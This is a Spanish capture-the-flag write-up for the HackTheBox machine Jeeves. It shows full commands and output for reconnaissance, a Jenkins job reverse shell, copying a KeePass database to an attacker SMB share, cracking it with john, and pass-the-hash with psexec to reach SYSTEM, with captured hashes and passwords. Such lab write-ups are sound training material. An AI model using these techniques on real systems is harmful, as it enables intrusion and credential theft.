

## Información Básica

### Técnicas vistas

- Jenkins Exploitation (Groovy Script Console)
- RottenPotato (SeImpersonatePrivilege)
- PassTheHash (Psexec)
- Breaking KeePass
- Alternate Data Streams (ADS)

### Preparación

- OSCP
- eJPT
- eWPT
- eCPPTv3

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.63 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.10.63`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
50000/tcp open  ibm-db2      syn-ack ttl 127
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p80,135,445,50000 10.10.10.63 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.10.63`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-23T02:05:39
|_  start_date: 2025-10-22T22:04:22
```

### Whatweb

Vamos a ver que tecnologías usan los servicios web:

```bash wrap=false
❯ whatweb http://10.10.10.63                                                                                                                           
http://10.10.10.63 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.63], Microsoft-IIS[10.0], Title[Ask Jeeves]
❯ whatweb http://10.10.10.63:50000
http://10.10.10.63:50000 [404 Not Found] Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.z-SNAPSHOT)], IP[10.10.10.63], Jetty[9.4.z-SNAPSHOT], PoweredBy[Jetty://], Title[Error 404 Not Found]
```

### Wfuzz

Haciendo un escaneo a el puerto `80`, no encontramos nada, pero en el puerto `5000` si:

```bash wrap=false
❯ wfuzz -c -L --hc 404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63:50000/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.63:50000/FUZZ
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                               
=====================================================================

000041607:   200        17 L     511 W      13393 Ch    "askjeeves" 
```

## Explotación

### Jenkins


Vemos que podemos añadir una **Nueva tarea**:


Crearemos una nueva tarea con el nombre que queramos, y seleccionamos **Crear un proyecto de estilo libre**. Esto nos dejará ejecutar un comando de Windows, vamos a generar una [reverse shell](https://www.revshells.com/) de tipo `PowerShell #3 (Base64)`:


Una vez hecho esto, ejecutaremos la tarea y recibiremos la shell:

```bash wrap=false
❯ sudo rlwrap nc -lvnp 4444     
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.63] 49680
whoami
jeeves\kohsuke
PS C:\Users\kohsuke\desktop> type user.txt
e3232272596fb4795...
```

## Escalada de privilegios (First way)

Si nos vamos a la carpeta `Documents`, veremos un archivo `CEH.kdbx`:

```bash wrap=false
PS C:\Users\kohsuke\Documents> dir


    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx  
```

Este archivo es usado por **Keepass** para gestionar contraseñas. Vamos a pasarnos el archivo a nuestra máquina:

```bash wrap=false
PS C:\Users\kohsuke\Documents> copy CEH.kdbx \\10.10.14.15\smbFolder\CEH.kdbx
```

```bash wrap=false
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49683)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User JEEVES\kohsuke authenticated successfully
[*] kohsuke::JEEVES:aaaaaaaaaaaaaaaa:178c0c6348e43e474b7df012e5568259:01010000000000000045dad55644dc013104a786e78793a200000000010010004f007800520065004500560079006800030010004f00780052006500450056007900680002001000460074005a005400670073007300790004001000460074005a0054006700730073007900070008000045dad55644dc01060004000200000008003000300000000000000000000000003000003cb5d2fda5e9245e591d5c087b98b9c2e8b30aec5a3b3116152d072e3e5910ca0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003500000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:smbFolder)
[*] Closing down connection (10.10.10.63,49683)
[*] Remaining connections []
```

Ahora si nos abrimos este archivo con el gestor `keepassxc` vemos que está protegido por contraseña:



### Keepass cracking

Por suerte gracias a la herramienta `keepass2john`, podemos convertir ese archivo a un hash crackeable:

```bash wrap=false
❯ keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

Si ahora intentamos crackearla con `john`:

```bash wrap=false
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Created directory: /home/zelpro/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:09 0.21% (ETA: 14:46:13) 0g/s 288.1p/s 288.1c/s 288.1C/s 122491..111385
moonshine1       (CEH)     
1g 0:00:02:43 DONE (2025-10-23 22:06) 0.006097g/s 335.2p/s 335.2c/s 335.2C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Vemos que la contraseña es `moonshine1`, vamos a probarlo:


Si seleccionamos la primera contraseña, tenemos un hash `NTLM`:

```txt wrap=false
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

En este caso nos interesa la parte después de los `:` para hacer pass the hash:

```bash wrap=false
❯ crackmapexec smb 10.10.10.63 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

### Psexec

Ahora con la herramienta `impacket-psexec` nos podremos lanzar una consola interactiva usando el hash:

```bash wrap=false
❯ impacket-psexec WORKGROUP/Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00    
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file BXDNxEJM.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service lONp on 10.10.10.63.....
[*] Starting service lONp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,652,123,136 bytes free
```

Vemos que la flag de primeras está oculta, se me ocurre esté usando **ADS** (*Alternative Data Stream*), para comprobarlo usaremos `dir /s` para ver precisamente esto:

```bash wrap=false
C:\Users\Administrator\Desktop> dir /r
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,652,061,696 bytes free
```

Y con el comando `more` veremos su contenido de la siguiente forma:

```bash wrap=false
C:\Users\Administrator\Desktop> more < hm.txt:root.txt
afbc5bd4b615a6064...
```

## Escalada de privilegios (Second way)


[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/442)

---
